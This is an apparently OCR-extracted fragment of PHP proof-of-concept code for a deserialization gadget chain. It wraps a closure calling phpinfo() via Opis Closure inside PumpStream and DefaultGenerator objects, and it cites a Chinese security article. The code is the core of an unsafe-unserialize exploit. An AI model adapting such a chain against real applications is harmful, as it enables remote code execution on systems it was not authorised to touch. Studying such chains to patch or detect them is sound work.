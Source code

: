 ```
        public function __construct(){
            $this->remoteStream=new DefaultGenerator(false);
            $this->stream=new PumpStream();
        }
    }
    final class PumpStream{
        private $source;
        private $size=-10;
        private $buffer;
        public function __construct(){
            $this->buffer=new DefaultGenerator('T');
            include("closure/autoload.php");
            $a = function(){phpinfo();};
            $a = \Opis\Closure\serialize($a);
            $b = unserialize($a);
            $this->source=$b;
        }
    }
}
```

 参考链接

https://xz.aliyun.com/t/9948
